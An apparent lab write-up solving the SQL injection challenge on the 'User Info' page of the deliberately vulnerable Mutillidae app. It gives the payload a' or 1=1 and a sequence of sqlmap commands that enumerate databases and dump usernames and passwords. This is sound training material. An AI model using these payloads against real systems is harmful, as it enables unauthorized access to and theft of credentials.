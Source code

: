 # A1
<h2>User Info</h2>

<p>We are dealing with a case of SQL Injection here. So we need to escape the intended context and fetch all users.
This one breaks down with the simplest and most trivial, <i><b>a' or 1=1</b></i>.
This causes the <i>"WHERE"</i> clause to return true and all the user details are displayed without any hassle. We have successfully used SQLINJECTION to get our hands on sensitive data.
</p>

<h3>Note</h3>
Please do not go about trying inserting SQL injection based input on webistes not owned by you, or sites on which you do not have permissions to perform tests on. Modern architectures have IDS setup which will monitor suspicious activity ,and report your IP. 

<h3>Execution</h3>
<ol>
	<li>Manually submit values via browser interface
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	</li>
<li>	
Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
using Mechanize. (sqlinjection.py). It can be modified to be bit smart and adaptive. For now it snipes on the User Info page.
</li>
<li>
Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.SQLMap ships by default with Kali Linux.
<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
</pre>
</li>
<li>
	One or more columns may then be selected using "<b>-C &ltcolumn1Name,column2Name&gt</b>" and the data can be dumped by specifying the option "<b>--dump</b>"
	<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts -C username,password --dump
</pre>
	</li>
</ul>
</ol>
